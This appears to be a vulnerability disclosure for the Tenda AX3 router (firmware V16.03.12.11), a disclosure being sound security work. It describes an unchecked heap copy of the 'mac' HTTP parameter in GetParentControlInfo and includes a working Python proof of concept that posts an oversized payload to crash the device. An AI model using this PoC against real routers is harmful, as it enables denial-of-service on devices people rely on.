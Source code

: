 Information
===========

**Vendor of the products**: Tenda <br>

**Vendor's website**: https://www.tenda.com.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: Tenda AX3 <br>

**Affected firmware version**: V16.03.12.11 <br>

**Firmware download address**: https://www.tenda.com.cn/download/detail-3476.html <br>

Overview
===========

**Tenda AX3 V16.03.12.11** has a **heap buffer overflow** vulnerability detected at function **GetParentControlInfo**. This vulnerability allows attackers to cause a Denial of Service (DoS) via the **mac** parameter paramter. <br>

Vulnerability details
=====================
The vulnerability is detected at **/bin/httpd** <br>

In the function **GetParentControlInfo**, the content obtained by program through parameter **mac** given by http is passed to variable **src**. However ,they will be copyed to the **v5** which is a heap ptr without any length check. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/18.png) <br>

<br>

Proof of Code
====================
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/GetParentControlInfo"

payload = "a"*0x1000
data = {
    "mac": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

Attack Demo
========
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/19.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/20.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/21.png)

